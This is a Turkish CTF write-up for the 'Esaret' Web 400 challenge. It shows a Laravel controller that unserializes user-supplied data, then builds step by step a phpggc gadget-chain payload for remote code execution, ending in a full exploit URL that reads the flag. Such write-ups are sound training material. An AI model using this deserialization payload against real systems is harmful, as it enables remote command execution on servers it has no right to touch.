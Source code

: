# Esaret - Web 400


```
http://34.205.154.108  

```
URL'ye gittik ve karsimiza bu  geldi
![](EsaretFirst.png)

Alttaki kismi decode edip html olarak geri koyduk. Ve karşımıza `php` kodu belirdi

``` php

<?php

namespace App\Http\Controllers;

use Illuminate\Foundation\Bus\DispatchesJobs;
use Illuminate\Http\Request;
use Illuminate\Routing\Controller as BaseController;
use Illuminate\Foundation\Validation\ValidatesRequests;
use Illuminate\Foundation\Auth\Access\AuthorizesRequests;

class Controller extends BaseController
{
    use AuthorizesRequests, DispatchesJobs, ValidatesRequests;

    public function home(Request $request)
    {
        $data = $request->get('data');

        // show welcome, hide /flag.txt
        if(false == $request->has('data'))
            return view('welcome',  ['code' => highlight_file(__FILE__,true)]);

        // Check
        if($request->get('checksum') !== md5($data))
            abort(403, "Esaret..!");

        // Look for the class we want
        $object = unserialize(base64_decode($data));
        if(isset($object['c']))
        {
            $object['c']->open();
        }
        return view('welcome');
    }

    public function phpinfo()
    {
        phpinfo();
    }
}

```

`data` parametrisne `base64` gelen veri, `checksum` parametresi ile uyusuyorsa `base64` decode edilip `unserialize` ediliyordu.
`c` arrayini open metodu ile cagiriliyordu. En basta amele gibi class ismi arasakta birsey elde edemedik.

Uzunca bir arastirma sornasi ( 4 gün uyumadan )
[şöyle](https://github.com/ambionics/phpggc) birşeye denk geldik içinde laravel içinde `RCE` bulunmakta idi. Tamam diyip yola koyulduk.

```
th3-j4ck4l:~$ phpggc laravel/rce1 'cat /var/www/html/public/flag.txt' -s
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events";O:15:"Faker\Generator":1:{s:13:"%00*%00formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"%00*%00event";s:33:"cat /var/www/html/public/flag.txt";}
```

Şeklinde çıktı veriyordu. Bu çıktı `-s` parametresi yüzünden `urlencode` edilmiş haliydi. Bunu `c` arrayine atıp çalıştırmak istedik.

``` php
<?php

$tmp=unserialize(urldecode('O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events";O:15:"Faker\Generator":1:{s:13:"%00*%00formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"%00*%00event";s:33:"cat /var/www/html/public/flag.txt";}'));

$dizi = array(
    "c" => $tmp
);
print_r(serialize($dizi));

 ?>
```

ile bunu `c` arrayine attık.

``` php
a:1:{s:1:"c";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"*events";O:15:"Faker\Generator":1:{s:13:"*formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"*event";s:33:"cat /var/www/html/public/flag.txt";}}
```
 fakat çıktıda hata vardı. `urlencode`'ta olan `nullbyte`'lar kayboluyordu. onlarıda eklememiz gerekecekti

 ``` php
a:1:{s:1:"c";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:15:"Faker\Generator":1:{S:13:"\00*\00formatters";a:1:{S:8:"dispatch";s:6:"system";}}S:8:"\00*\00event";s:33:"cat /var/www/html/public/flag.txt";}}
 ```

 bunu `base64` ile encode edip `MD5` ile sumunu alıp yolladığımızda [ise](http://34.205.154.108/index.php?data=YToxOntzOjE6ImMiO086NDA6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXFBlbmRpbmdCcm9hZGNhc3QiOjI6e1M6OToiXDAwKlwwMGV2ZW50cyI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntTOjEzOiJcMDAqXDAwZm9ybWF0dGVycyI7YToxOntTOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1TOjg6IlwwMCpcMDBldmVudCI7czozMzoiY2F0IC92YXIvd3d3L2h0bWwvcHVibGljL2ZsYWcudHh0Ijt9fQ==&checksum=e0a4da073c328ba83afa67a0a09766eb) ;

![](flag.png)

flag karşımızda idi;


```
DKHOS_{EsaRetTenKurTuluSGeREKTirirCEsAReT}
```
